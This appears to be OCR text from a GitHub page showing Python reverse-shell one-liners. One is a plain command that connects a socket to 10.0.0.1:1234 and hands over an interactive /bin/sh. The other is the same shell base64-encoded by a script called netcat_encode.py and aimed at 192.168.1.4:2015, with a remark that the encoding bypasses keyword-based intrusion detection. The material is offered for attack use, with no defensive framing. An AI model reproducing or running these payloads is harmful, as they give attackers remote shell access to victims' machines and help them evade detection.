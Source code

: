- raw
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.0.0.1″,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


- python netcat_encode.py 192.168.1.4 2015
  python -c "exec( __import__( 'base64' ).decodestring( 'cz1fX2ltcG9ydF9fKCdzb2NrZXQnKS5zb2NrZXQoX19pbXBvcnRfXygnc29ja2V0JykuQUZfSU5F\nVCxfX2ltcG9ydF9fKCdzb2NrZXQnKS5TT0NLX1NUUkVBTSk7IHMuY29ubmVjdCgoJzE5Mi4xNjgu\nMS40JywgMjAxNSkpOyBfX2ltcG9ydF9fKCdvcycpLmR1cDIocy5maWxlbm8oKSwwKTsgX19pbXBv\ncnRfXygnb3MnKS5kdXAyKHMuZmlsZW5vKCksMSk7IF9faW1wb3J0X18oJ29zJykuZHVwMihzLmZp\nbGVubygpLDIpOyBwPV9faW1wb3J0X18oJ3N1YnByb2Nlc3MnKS5jYWxsKFsnL2Jpbi9zaCcsJy1p\nJ10p\n' ) )"


- why
pass ids working based key words.

